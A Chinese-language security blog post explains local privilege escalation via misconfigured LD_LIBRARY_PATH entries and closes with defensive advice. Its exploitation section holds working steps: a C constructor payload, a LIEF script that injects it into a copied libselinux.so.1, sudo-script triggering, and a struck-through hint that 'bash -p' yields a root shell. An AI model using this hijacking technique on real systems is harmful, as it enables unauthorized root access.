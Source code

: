 ```yaml
---
title: LD_LIBRATY_PATH环境变量不正确配置导致本地提权
authors: Enokiy
date: 2024-02-02
categories: [本地提权]
tags: [本地提权]

---
```


## 概述

环境变量LD_LIBRARY_PATH用于在**程序加载运行期间**查找动态链接库时指定除了系统默认路径之外的其他路径。

linux中动态链接库的查询顺序:LD_PRELOAD、/etc/ld.so.preload、DT_RPATH、LD_LIBRARY_PATH、DT_RUNPATH、/etc/ld.so.cache、以及默认目录/lib、/usr/lib（64位系统下是/lib64，/usr/lib64）。

       (1)  Using the directories specified in the DT_RPATH dynamic
            section attribute of the binary if present and DT_RUNPATH
            attribute does not exist.  Use of DT_RPATH is deprecated.(设置了DT_RPATH并且DT_RUNPATH不为空时，查找DT_RPATH设置的目录)

       (2)  Using the environment variable LD_LIBRARY_PATH, unless the
            executable is being run in secure-execution mode (see
            below), in which case this variable is ignored.

       (3)  Using the directories specified in the DT_RUNPATH dynamic
            section attribute of the binary if present.  Such
            directories are searched only to find those objects required
            by DT_NEEDED (direct dependencies) entries and do not apply
            to those objects' children, which must themselves have their
            own DT_RUNPATH entries.  This is unlike DT_RPATH, which is
            applied to searches for all children in the dependency tree.

       (4)  From the cache file /etc/ld.so.cache, which contains a
            compiled list of candidate shared objects previously found
            in the augmented library path.  If, however, the binary was
            linked with the -z nodefaultlib linker option, shared
            objects in the default paths are skipped.  Shared objects
            installed in hardware capability directories (see below) are
            preferred to other shared objects.

       (5)  In the default path /lib, and then /usr/lib.  (On some
            64-bit architectures, the default paths for 64-bit shared
            objects are /lib64, and then /usr/lib64.)  If the binary was
            linked with the -z nodefaultlib linker option, this step is
            skipped.


网上搜索一下LD_LIBRARY_PATH环境变量的配置，常见的配置方法是 `export LD_LIBRARY_PATH=/xxx/yyy:/lib64 `，这种配置下需要检查/xxx普通用户是否可控，如果可控，则存在本地提权风险；

其他的几种配置方法：
* `export LD_LIBRARY_PATH=/lib64:$LD_LIBRARY_PATH ` 
* `export LD_LIBRARY_PATH=$LD_LIBRARY_PATH:/lib64`  
* `export LD_LIBRARY_PATH=LD_LIBRARY_PATH:lib64  `

**这几种配置方式都有so劫持风险，从而导致本地提权:** 

*  `export LD_LIBRARY_PATH=/lib64:$LD_LIBRARY_PATH `    # 默认$LD_LIBRARY_PATH为空，配置变成了`export LD_LIBRARY_PATH=/lib64:`，如果在/lib64中找不到so，则在当前工作目录搜索，存在风险；
* `export LD_LIBRARY_PATH=$LD_LIBRARY_PATH:/lib64`     # 默认$LD_LIBRARY_PATH为空，配置变成了`export LD_LIBRARY_PATH=:/lib64`，使用:分割，则表示优先在当前工作目录搜索，存在劫持风险；
* `export LD_LIBRARY_PATH=LD_LIBRARY_PATH:lib64  `      # 错误写法，相对路径LD_LIBRARY_PATH目录；

## 利用

**1.高权限用户配置 export LD_LIBRARY_PATH=/xxx:/lib64 `， /xxx/目录普通用户可写**

![](/assets/images/local_privilege/2024-02-23-14-55-31.png)

**利用过程:**

(1) strace进程找到依赖的共享库: 

> 对于sudo脚本怎么通过strace找到依赖库?
>
>开两个shell，第一个中通过`echo $$` 获取到当前pid:
>
>![](/assets/images/local_privilege/2024-02-28-15-54-00.png)
>
>在另一个shell中通过strace跟踪获取到的pid，将跟踪结果输出到文件，再通过grep 文件查找需要的信息:
>
> root@ubuntu22:/tmp/enokiy#strace -o output.log -f -p 1323
>
>![](/assets/images/local_privilege/2024-02-28-15-40-00.png)
>![](/assets/images/local_privilege/2024-02-28-15-52-21.png)
>
>对于二进制文件，直接通过ldd查看。


(2) 使用普通用户在可控目录下生成libselinux.so.1文件，生成过程：

```c
shell.c

#include<stdlib.h>
#include<stdio.h>
#include<string.h>

__attribute__((__constructor__)) void preload (void){
	system("bash -c 'touch /tmp/hacked'");
}
```

```Console
gcc -shared -fPIC -w shell.c -o shell.o
```

```python

import sys
import lief

str_so_orignal=sys.argv[1]
str_so_gadget=sys.argv[2]

libnative = lief.parse(str_so_orignal)
libnative = lief.add_library(str_so_gadget)
libnative.write(str_so_orignal)
```

```Console
enokiy@ubuntu22:/tmp/enokiy$ cp  /lib/x86_64-linux-gnu/libselinux.so.1 ./
enokiy@ubuntu22:/tmp/enokiy$ python3 shell.py libselinux.so.1 shell.o
```

(3) 执行sudo脚本触发so劫持

![](/assets/images/local_privilege/2024-02-28-16-25-59.png)

~~把shell.c中的`bash -c 'touch /tmp/hacked'` 改成`bash -p` 可直接获得root权限的shell。~~

**2.高权限用户的环境变量配置 export LD_LIBRARY_PATH=$LD_LIBRARY_PATH:/lib64**

**利用方式**

因为$LD_LIBRARY_PATH默认为空，所以优先会在当前目录查找，利用方式跟前一个类似，把依赖库放到当前目录即可。

**3.高权限用户的环境变量配置 export LD_LIBRARY_PATH=/lib64:$LD_LIBRARY_PATH** 

**利用方式**

因为$LD_LIBRARY_PATH默认为空，所以该配置变成了如果在前面配置的目录中没找到依赖库，就会在当前目录进行查找，利用方式类似2。

**4.高权限用户的环境变量配置 export LD_LIBRARY_PATH=/lib64:LD_LIBRARY_PATH 或者export LD_LIBRARY_PATH=LD_LIBRARY_PATH:/lib64** 

**利用方式**

单纯的拼写错误，少了一个$，路径变成了相对路径LD_LIBRARY_PATH，低权限用户创建LD_LIBRARY_PATH目录，然后在LD_LIBRARY_PATH目录中放置恶意so即可利用。

## 总结

其他类似的环境变量还包括LD_PRELOAD、PATH等，对于高权限用户启动的进程，注意环境变量中不要存在低权限用户可控的目录或脚本/应用。

## 参考

* [man-pages/man8/ld.so.8.html](https://man7.org/linux/man-pages/man8/ld.so.8.html)
* [LIEF](https://github.com/lief-project/LIEF)